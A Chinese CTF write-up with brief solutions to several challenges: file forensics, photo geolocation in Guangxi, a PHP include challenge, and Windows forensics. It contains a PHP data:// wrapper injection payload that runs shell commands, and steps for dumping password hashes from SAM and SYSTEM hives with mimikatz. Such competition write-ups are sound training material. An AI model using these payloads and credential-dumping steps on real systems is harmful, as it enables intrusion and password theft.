




#### PvzHE

images文件里就它修改时间在2024年，打开就有flag.

#### 请找出拍摄地所在位置

柳化复合肥可以得知在柳州附近

上面还有个4s店得知在柳城附近

搜索梁彦明农资可以得到具体位置

结合雅迪电动车和绿源电动车最终确定位置

QHCTF{广西壮族自治区柳州市柳城县六广路与榕泉路交叉口}

#### Easy_include

?file=data://text/plain,`<?php system('cat fla*');?>`

查看源代码：

#### Web_IP

原题https://blog.csdn.net/weixin_51412071/article/details/124344787?spm=1001.2101.3001.6650.2&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7ERate-2-124344787-blog-130608142.235%5Ev43%5Econtrol&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7ERate-2-124344787-blog-130608142.235%5Ev43%5Econtrol&utm_relevant_index=5

#### Win_02

用 FTK Imager打开

提取root\Windows\System32\config\SAM

root\Windows\System32\config\SYSTEM

使用 `mimikatz` 命令：lsadump::sam /sam:SAM /system:SYSTEM

得到账号密码

加密可得flag